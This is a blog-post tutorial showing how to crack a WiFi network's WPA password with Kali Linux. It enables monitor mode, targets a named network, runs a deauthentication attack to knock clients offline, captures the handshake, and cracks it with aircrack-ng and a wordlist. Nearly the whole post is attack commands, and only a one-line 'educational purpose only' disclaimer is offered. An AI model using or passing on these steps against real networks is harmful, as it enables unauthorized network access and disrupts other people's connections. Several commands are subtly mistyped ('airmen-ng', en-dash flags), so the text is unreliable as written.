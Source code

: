 ```yaml
---
title: Wifi Hacking
author: Radeel Ahmad
pubDatetime: 2024-05-16T12:22:23Z
slug: Hacking Wifi
featured: false
draft: false
tags:
  - hacking
  - wireless-hacking
  - wifi-hacking
ogImage: https://res.cloudinary.com/RadeelAhmad/v1663745737/astro-paper/astropaper-x-forestry-og_kqfwp0.png
description:
  step-by-step method to hack WIFI using a network adapter.
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Network Adapter

## Let’s Start…..

The network adapter I am using for this attack demo is **Alpha’s AWUS036H**.

![image1](Images/WH-1.jpg)

After connecting the network adapter, open the Kali Linux machine and write the followingcommand on the terminal.

```code
iwconfig
```

![image1](Images/WH-11.png)

When we connect the adapter, you’ll see the wlan0 interface on your terminal screens. To change the mode to `Monitor Mode`, use the following command.

```code
sudo airmen-ng start wlan0 
```

![image1](Images/WH-3.png)

Again, use the command mentioned below to verify the monitor mode.

```code
iwconfig
```

![image1](Images/WH-4.png)

As you can see, the mode has been changed. Now, use the airodump-ng tool to capture wireless network traffic on the specified interface.

```code
sudo airodump-ng wlan0
```

![image1](Images/WH-5.png)

It will display information about nearby **WiFi Networks**. Our intended interface is `Alvish Bhaii`. Then, copy the `BSSID`.

The Following command tells us how many devices are connected tothis Network interface.

```code
sudo airodump-ng wlan0 -d <mac-address>
```

![image1](Images/WH-6.png)

Remember, WiFi Networks always occupy a limited radius of the area. So, you should be within that radius to discover the WiFi network. The next step is to capture the handshake, using the **death attack**.

```code
sudo airodump-ng -w <filename> –c 1 --bssid <target-mac> wlan0
```

![image1](Images/WH-7.png)

In this attack, we save the handshake in a `.pcap` file. The next step is the death attack: We open another terminal and type the following command.

```code
sudo aireplay-ng -–deauth 0 -a <target-mac> wlan0
```

![image1](Images/WH-8.png)

If a disconnected client tries to connect with the wifi, they generate a four-way handshake.

**What is a four-way handshake?**
A four-way handshake is a message exchange between an access point and the client device.

![image1](Images/WH-9.png)

Now, you see that it captures the handshake. Type in the ls command to see the file.

![image1](Images/WH-10.png)

In our attack method, we are going to crack the password in our test-01.cap in encrypted form. The cracking is totally offline; we don’t need an internet connection or Wi-Fi adapter for it. We’ll use their crack toolto crack the password.

```code
aircrack-ng <filename.cap> -w /usr/share/wordlists/rockyou.txt
```

![image1](Images/WH-11.png)

**You see that the key is found and cracked Successfully.**

Thank You for reading this blog. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
